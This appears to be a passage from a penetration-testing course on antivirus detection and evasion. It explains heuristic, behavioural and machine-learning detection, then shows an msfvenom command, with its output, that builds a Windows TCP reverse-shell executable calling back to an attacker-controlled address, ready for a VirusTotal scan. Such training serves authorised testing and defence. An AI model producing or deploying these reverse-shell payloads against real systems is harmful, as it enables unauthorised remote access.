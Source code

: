 Lastly, _Machine-Learning Detection_ aims to up the game by introducing ML algorithms to detect unknown threats by collecting and [_analyzing additional metadata_](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/cloud-protection-microsoft-antivirus-sample-submission?view=o365-worldwide). For instance, Microsoft Windows Defender has two ML components: the client ML engine, which is responsible for creating ML models and heuristics, and the cloud ML engine, which is capable of analyzing the submitted sample against a metadata-based model comprised of all the [_submitted samples_](https://i.blackhat.com/us-18/Thu-August-9/us-18-Parikh-Protecting-the-Protector-Hardening-Machine-Learning-Defenses-Against-Adversarial-Attacks.pdf). Whenever the client ML engine is unable to determine whether a program is benign or not, it will query the cloud ML counterpart for a final response.

Since these techniques do not require malware signatures, they can be used to identify unknown malware, or variations of known malware, more effectively. Given that antivirus manufacturers use different implementations when it comes to heuristics, behavior, and machine learning detection, each antivirus product will differ in terms of what code is considered malicious.

It's worth noting that many antivirus developers use a combination of these detection methods to achieve higher detection rates.

To demonstrate the effectiveness of various antivirus products, we will start by scanning a popular _Metasploit_ payload. Using _msfvenom_, we will generate a standard [_Portable Executable_](https://en.wikipedia.org/wiki/Portable_Executable) (PE) file containing our payload. In this case we will use a simple TCP reverse shell.

The PE file format is used on Windows operating systems for executable and object files. The PE format represents a Windows data structure that details the information necessary for the [_Windows Loader_](https://en.wikipedia.org/wiki/Loader_(computing)) to manage the wrapped executable code including required dynamic libraries, API import and export tables, etc.

Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

Next, we will run a virus scan on this executable. Rather than installing many antivirus applications on our local machine, we can upload our file to [_VirusTotal_](https://www.virustotal.com/#/home/upload), which will scan it to determine the detection rate of various AV products.

